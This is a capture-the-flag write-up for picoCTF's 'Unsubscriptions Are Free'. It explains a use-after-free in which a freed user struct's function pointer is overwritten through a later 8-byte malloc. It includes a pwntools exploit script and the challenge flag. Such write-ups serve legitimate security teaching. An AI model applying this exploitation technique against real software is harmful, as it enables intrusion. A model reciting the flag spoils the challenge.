

# Unsubscriptions Are Free

*Hard*

>### Description
>Check out my new video-game and spaghetti-eating streaming channel on Twixer! [program](./vuln) and get a flag. [source](./vuln.c) `nc mercury.picoctf.net 4593`

## Solution

### Recon

When we connect to the service, we are greeted with a simple menu.



- Notice, when I press 'S' to subscribe, it says something about a memory leak: "OOP! Memory leak...0x80487d6".

Get some info about the binary with `checksec`:
```
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
```

And look at the source code. 

This is the function that prints the flag.
```c
void hahaexploitgobrrr(){
        char buf[FLAG_BUFFER];
        FILE *f = fopen("flag.txt","r");
        fgets(buf,FLAG_BUFFER,f);
        fprintf(stdout,"%s\n",buf);
        fflush(stdout);
}
```
Notice that the leaked address is the address of this function:
```c
void s(){
        printf("OOP! Memory leak...%p\n",hahaexploitgobrrr);
        puts("Thanks for subsribing! I really recommend becoming a premium member!");
}
```

We find a vulnerability in the account deletion option.
```c
void i(){
        char response;
        puts("You're leaving already(Y/N)?");
        scanf(" %c", &response);
        if(toupper(response)=='Y'){
                puts("Bye!");
                free(user);
        }else{
                puts("Ok. Get premium membership please!");
        }
}
```
It frees the memory of the user variable, but user is still used everywhere in the program. After this we can probably overwrite the `user->whatToDo` to the leaked address the options that allows us to leave a message:
```c
void leaveMessage(){
        puts("I only read premium member messages but you can ");
        puts("try anyways:");
        char* msg = (char*)malloc(8);
        read(0, msg, 8);
}
```

### Exploit

When we delete the user account (free memory), and we leave a message "aabbccdd", the program will segfault because it cannot execute this 0x62626161 memory location. 

Since the leaked memory address is the same each time, we can just write a very simple [script](./exploit.py) to exploit this.

```python
#!/bin/python3

from pwn import *

p = remote('mercury.picoctf.net', 4593)

p.recvuntil(b'(e)xit\n')
p.sendline(b'i')
p.sendline(b'Y')
p.recvuntil(b'(e)xit\n')
p.sendline(b'l')
p.sendline(p32(0x80487d6))

p.interactive()
```

<details>
<summary>Yes! We got the flag:</summary> 
picoCTF{d0ubl3_j30p4rdy_ba307b82}
</details>
